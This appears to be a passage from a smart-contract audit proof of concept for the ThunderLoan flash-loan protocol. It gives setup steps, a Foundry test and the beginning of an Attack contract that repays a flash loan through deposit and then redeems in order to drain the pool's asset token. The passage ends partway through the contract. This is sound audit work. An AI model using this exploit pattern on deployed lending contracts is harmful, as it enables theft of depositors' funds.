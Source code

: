 1. Place the **`attack.sol`** file within the mocks folder.
2. Import the contract in **`ThunderLoanTest.t.sol`**.
3. Change the **`setUp()`** function in **`ThunderLoanTest.t.sol`**.
4. Add **`testattack()`** function in **`ThunderLoanTest.t.sol`**.


```javascript
import { Attack } from "../mocks/attack.sol";
```

```javascript
function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
        vm.prank(user);
        attack = new Attack(address(thunderLoan));   
    }
```

```javascript
function testattack() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        vm.startPrank(user);
        tokenA.mint(address(attack), AMOUNT);
        thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
        attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);   
    }
```


attack.sol

```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
```